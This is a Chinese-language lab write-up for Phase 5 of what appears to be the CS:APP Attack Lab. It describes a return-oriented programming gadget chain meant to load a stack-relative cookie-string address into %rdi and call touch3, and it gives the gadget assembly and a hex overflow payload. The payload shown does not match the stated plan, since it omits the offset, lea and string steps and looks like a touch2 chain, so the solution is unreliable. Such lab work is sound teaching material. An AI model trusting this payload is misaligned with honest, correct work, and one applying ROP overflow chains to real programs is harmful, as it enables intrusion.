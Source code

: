 ![屏幕截图 2025-06-24 122033](https://cdn.jsdelivr.net/gh/liyu6688/images@main/屏幕截图 2025-06-24 122033.png)

# Phase 5

+ 该阶段要实现的效果和Phase 3一样，所以同样需要将%rdi内容修改为cookie字符串对应地址并跳到touch3函数

+ 由于每次栈都是随机开辟，存入字符串的地址并不固定，所以不能直接把地址赋值给%rdi，而需要通过读取栈顶地址%rsp加上一定的偏移量来获得字符串地址

+ movl指令以寄存器作为目的时，会把该寄存器的高位4字节设置为0，即会损失高四字节的值。而栈顶地址经过gdb断点测试，都至少大于0x7ffffff00000：

+ 所以ROP整体思路为：
  1.将偏移量pop入%rax中
  2.movl指令将偏移量以该顺序：%eax->%edx->%ecx->%esi移入%rsi中
  3.movq指令将栈指针以该顺序：%rsp->%rax->%rdi移入%rdi中
  4.lea指令计算字符串地址
  5.计算结果%rax赋值给%rdi
  6.调用touch3

+ 所以汇编

+ ```python
  pop %rax
  retq
  movl 		%eax,%edx
  retq
  movl		%edx,%ecx
  retq
  movl 		%ecx,%esi
  retq
  movq 		%rsp,%rax
  retq
  movq 		%rax,%rdi
  retq
  lea 		(%rdi,%rsi,1),%rax
  retq
  movq		%rax,%rdi
  retq
  ```

+ 构造payload

  ```java
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00	
  00 00 00 00 00 00 00 00
  cc 19 40 00 00 00 00 00
  fa 97 b9 59 00 00 00 00
  c5 19 40 00 00 00 00 00
  ec 17 40 00 00 00 00 00
  ```

  ![屏幕截图 2025-06-24 121647](https://cdn.jsdelivr.net/gh/liyu6688/images@main/屏幕截图 2025-06-24 121647.png)

